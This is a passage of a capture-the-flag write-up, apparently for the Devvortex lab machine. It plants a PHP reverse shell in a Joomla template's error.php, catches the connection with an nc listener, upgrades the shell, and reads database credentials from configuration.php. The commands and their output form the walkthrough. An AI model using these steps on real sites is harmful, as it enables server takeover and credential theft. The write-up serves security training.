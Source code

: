 The user lewis is a Super User.

We can abuse this putting a PHP reverse shell inside a template page.

```shell
Go to -> System -> Site Templates -> Cassiopeia Details and Files -> Edit error.php -> Enter PHP Ivan Sincek code at the end of the code inside error.php -> Click on Save
```

Now start our nc listener:

```shell
nc -lvnp 8443
```

Visit the following URL to trigger the PHP reverse shell inside error.php:

```shell
curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
```

After that, we will get a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.133.100] 57568
SOCKET: Shell has connected! PID: 1030
whoami
www-data
```

If we still have problems triggering our reverse shell, try clicking on Save and then Template Preview.

Lets upgrade our shell now:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Or using
script /dev/null -c bash
```

### Finding credentials of logan in MySQL database and getting access with SSH
Enumerating the system using the following command we found the port 3306 running locally:

```shell
ss -tulnp
```

```shell
tcp     LISTEN   0        151            127.0.0.1:3306           0.0.0.0:*
```

We can also see the credentials of lewis we already obtained before in the following file:

```shell
cat configuration.php
```

```shell
<SNIP>
        public $debug = false;
        public $debug_lang = false;
        public $debug_lang_const = true;
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'lewis';
        public $password = 'P4ntherg0t1n5r3c0n##';
        public $db = 'joomla';
        public $dbprefix = 'sd4fg_';
        public $dbencryption = 0;
        public $dbsslverifyservercert = false;
<SNIP>
```